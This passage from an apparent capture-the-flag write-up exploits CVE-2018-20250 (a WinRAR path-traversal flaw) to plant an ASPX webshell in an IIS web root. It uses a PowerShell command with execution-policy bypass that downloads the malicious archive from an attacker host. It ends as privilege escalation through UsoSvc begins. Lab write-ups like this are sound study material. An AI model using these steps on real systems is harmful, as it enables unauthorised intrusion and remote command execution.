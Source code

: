 ~~~~powershell
  if ( $files.length -gt 0) {
		# launch ods files
		Invoke-Item "C:\Users\luke\Documents\malware_process\*.ods"
		Start-Sleep -s 5

		# kill open office, sleep
		Stop-Process -Name soffice*
		Start-Sleep -s 5      

		#& 'C:\Program Files (x86)\WinRAR\Rar.exe' a -ep $process_dir\temp.rar $process_dir\*.ods 2>&1 | Out-Null
		Compress-Archive -Path "$process_dir\*.ods" -DestinationPath "$process_dir\temp.zip"
		$hash = (Get-FileHash -Algorithm MD5 $process_dir\temp.zip).hash
		# Upstream processing may expect rars. Rename to .rar
		Move-Item -Force -Path $process_dir\temp.zip -Destination $files_to_analyze\$hash.rar
  }

	Remove-Item -Recurse -force -Path $process_dir\*
	Start-Sleep -s 5
}
~~~~

At the bottom of the script, there's  mention of upstream processing of RAR files. I noticed any RAR file I put into `C:\users\luke\Documents\ods` disappears faster than I can blink my eye while I was staring at my screen. Long story short, I was able to use EvilWinRar [generator](https://github.com/manulqwerty/Evil-WinRAR-Gen) to exploit [CVE-2018-20250](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20250) to write files as `re/cam`. But, what files do I write and where?

Recall the web server is IIS? In `C:\inetpub\wwwroot`, there are three folders `blog`, `ip` and `re` where `luke` has no write access. I can probably probably use EvilWinRar to write an ASPX webshell (from `/usr/share/webshells/aspx/cmdasp.aspx` in Kali Linux) to one of the folders.


{% include image.html image_alt="bf599f10.png" image_src="/7e989f7c-38a9-473c-9448-35379c0e3755/bf599f10.png" %}


Download the webshell.rar to `C:\users\luke\Documents\ods` like so.

```
C:\Users\luke\Documents\ods>powershell -nop -exec bypass -c iwr http://10.10.15.203:8000/webshell.rar -outfile .\webshell.rar
```


{% include image.html image_alt="a603fbe6.png" image_src="/7e989f7c-38a9-473c-9448-35379c0e3755/a603fbe6.png" %}


Bam, a webshell as IIS service.

### Weak Service

I found out that `accesschk.exe` was installed as part of SysInternals during my enumeration earlier on. Using `accesschk.exe`, I was able to determine that `NT AUTHORITY\SERVICE` has full service access to UsoSvc.
